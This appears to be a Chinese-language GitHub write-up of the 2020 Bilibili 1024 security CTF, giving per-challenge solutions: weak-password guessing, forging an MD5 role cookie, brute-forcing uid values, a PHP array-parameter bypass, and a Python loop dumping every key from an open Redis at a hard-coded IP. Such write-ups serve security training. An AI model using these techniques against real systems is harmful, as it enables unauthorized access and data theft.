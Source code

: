 # 2020-bilibili-sec1024

>本记录由 TePuint Club 赞助完成

活动地址：[sec1024](https://security.bilibili.com/sec1024/)

## 第一题

打开DevTool审查元素，在`<input>`中找到data

## 第二题

修改浏览器的User-Agent为 `bilibili Security Browser`，然后刷新网页。

或者在Console中输入：

```javascript
$.ajax({
    url: "api/ctf/2",
    type: "get",
    success: function (data) {
        console.log(data.data);
    }
})
```

## 第三题

就是弱口令，完全靠猜，用户名 `admin` ，密码 `bilibili` 。

或者在Console中输入：

```javascript
$.ajax({
    url: "api/ctf/3",
    type: "post",
    contentType: "application/json",
    dataType: "json",
    data: JSON.stringify({
        username: "admin",
        passwd: "bilibili",
    }),
    success: function (data) {
        console.log(data.data)
    }
})
```

## 第四题

cookies中role对应的值为user的MD5，所以将这个值改为 `Administration` 的MD5，即 `7b7bc2512ee1fedcd76bdc68926d4f7b` ，然后刷新网页即可。

或者在Console中输入：

```javascript
$.ajax({
    url: "api/ctf/4",
    type: "get",
    success: function (data) {
        console.log(data.data);
    }
})
```

## 第五题

使用Console向后穷举，我也不知道那个uid哪里来的。

在Console中输入：

```javascript
get(100336889) //这里每个人有可能不一样，请在网页中查找
function get(uid) {
    $.ajax({
        url: "api/ctf/5?uid=" + uid,
        type: "get",
        success: function (data) {
            if (data.code == 200) {
                console.log(data.data)
            } else {
                get(uid + 1)
            }
        }
    })
}
```

## 第十题

你没看错，这里是第十题，但这一题的入口在第六题，也就是第六题做完是第十题的答案。

>注意：每个人的靶机不一定相同，请注意更换IP

1. 访问"http://120.92.151.189/blog/test.php"
2. 将网页中所有的内容复制粘贴到Console中，获取str1和str2
```javascript
 var str1 = "\u7a0b\u5e8f\u5458\u6700\u591a\u7684\u5730\u65b9";
 var str2 = "bilibili1024havefun";
 console.log()
```
3. 将str1进行Unicode转中文得到 `程序员最多的地方` 即 GitHub
4. 在GitHub搜索str2,即"bilibili1024havefun"
5. 在搜索结果中找到与end有关的那个 [传送门](https://github.com/interesting-1024/end/blob/main/end.php)
6. 分析PHP文件,id为不含1的数组，路径不清楚要猜
```php
 <?php

    //filename end.php

    $bilibili = "bilibili1024havefun";

    $str = intval($_GET['id']);
    $reg = preg_match('/\d/is', $_GET['id']);

    if (!is_numeric($_GET['id']) and $reg !== 1 and $str === 1) {
        $content = file_get_contents($_GET['url']);

        //文件路径猜解
        if (false) {
            echo "还差一点点啦～";
        } else {
            echo $flag;
        }
    } else {
        echo "你想要的不在这儿～";
    }
    ?>
```
7. 构造URL，使满足 `!is_numeric($_GET['id']) and $reg !== 1 and $str === 1`
8. 猜URL，访问 "http://120.92.151.189/blog/end.php?id[]=&url=./flag.txt"得到一张图片
9. 图片另存为，并用npp打开,在文件末尾找到flag

## 第八题

在做本题时可能会遇到redis连接不上的问题，我们使用Python脚本进行轰炸

首先安装redis库：`!pip3 install redis`

接着执行以下脚本：

```python
import redis

serve = '45.113.201.36' #设置服务器IP地址

print('Connecting the Server ('+serve+') ...')
while True:
    try:
        r = redis.StrictRedis(host=serve, port=6379)
        keys = r.keys()
        print('We got the flag:')
        for key in keys:
            value = r.get(key)
            print(key, value)
        break
    except:
        print('Error: Connection timed out')
        pass
```